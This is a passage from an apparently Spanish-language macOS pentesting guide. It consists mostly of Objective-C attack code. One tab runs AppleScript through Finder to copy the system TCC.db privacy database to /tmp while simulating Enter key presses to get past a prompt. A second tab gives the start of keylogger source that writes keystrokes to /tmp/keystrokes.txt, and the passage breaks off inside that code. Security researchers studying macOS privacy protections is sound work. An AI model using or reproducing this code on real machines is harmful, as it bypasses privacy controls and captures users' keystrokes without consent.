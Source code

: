 ```objectivec
if (keyUpEvent) CFRelease(keyUpEvent);
}

void RunAppleScript() {
NSLog(@"Starting AppleScript");
NSString *scriptSource = @"tell application \"Finder\"\n"
"set sourceFile to POSIX file \"/Library/Application Support/com.apple.TCC/TCC.db\" as alias\n"
"set targetFolder to POSIX file \"/tmp\" as alias\n"
"duplicate file sourceFile to targetFolder with replacing\n"
"end tell\n";

NSDictionary *errorDict = nil;
NSAppleScript *appleScript = [[NSAppleScript alloc] initWithSource:scriptSource];
[appleScript executeAndReturnError:&errorDict];

if (errorDict) {
NSLog(@"AppleScript Error: %@", errorDict);
}
}

int main() {
@autoreleasepool {
dispatch_async(dispatch_get_global_queue(DISPATCH_QUEUE_PRIORITY_DEFAULT, 0), ^{
RunAppleScript();
});

// Simulate pressing the Enter key every 0.1 seconds
NSLog(@"Starting key presses");
for (int i = 0; i < 10; ++i) {
SimulateKeyPress((CGKeyCode)36); // Key code for Enter
usleep(100000); // 0.1 seconds
}
}
return 0;
}
```
{% endtab %}

{% tab title="Keylogger" %}
Almacena las teclas presionadas en **`/tmp/keystrokes.txt`**
```objectivec
#import <Foundation/Foundation.h>
#import <ApplicationServices/ApplicationServices.h>
#import <Carbon/Carbon.h>

// clang -framework Foundation -framework ApplicationServices -framework Carbon -o KeyboardMonitor KeyboardMonitor.m

NSString *const kKeystrokesLogPath = @"/tmp/keystrokes.txt";

void AppendStringToFile(NSString *str, NSString *filePath) {
NSFileHandle *fileHandle = [NSFileHandle fileHandleForWritingAtPath:filePath];
if (fileHandle) {
[fileHandle seekToEndOfFile];
[fileHandle writeData:[str dataUsingEncoding:NSUTF8StringEncoding]];
[fileHandle closeFile];
} else {
// If the file does not exist, create it
[str writeToFile:filePath atomically:YES encoding:NSUTF8StringEncoding error:nil];
}
}

CGEventRef KeyboardEventCallback(CGEventTapProxy proxy, CGEventType type, CGEventRef event, void *refcon) {
```